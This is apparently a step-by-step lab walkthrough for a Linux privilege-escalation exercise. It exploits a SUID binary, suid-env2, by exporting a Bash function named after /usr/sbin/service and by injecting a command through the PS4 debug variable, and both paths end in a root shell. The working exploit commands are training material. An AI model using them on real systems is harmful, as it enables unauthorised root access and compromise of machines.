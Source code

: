 The **/usr/local/bin/suid-env2** executable is identical to **/usr/local/bin/suid-env** except that it uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.

Verify this with strings:

`strings /usr/local/bin/suid-env2`

In Bash versions **<4.2-048** it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

Verify the version of Bash installed on the Debian VM is less than 4.2-048:

`/bin/bash --version`

Create a Bash function with the name "**/usr/sbin/service**" that executes a new Bash shell (using -p so permissions are preserved) and export the function:

`function /usr/sbin/service { /bin/bash -p; }`

`export -f /usr/sbin/service`

Run the **suid-env2** executable to gain a root shell:

`/usr/local/bin/suid-env2`


Note: This will not work on Bash versions 4.4 and above.

When in debugging mode, Bash uses the environment variable **PS4** to display an extra prompt for debugging statements.

Run the **/usr/local/bin/suid-env2** executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

`env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2`

Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

**Remember to remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!**

`rm /tmp/rootbash`

`exit`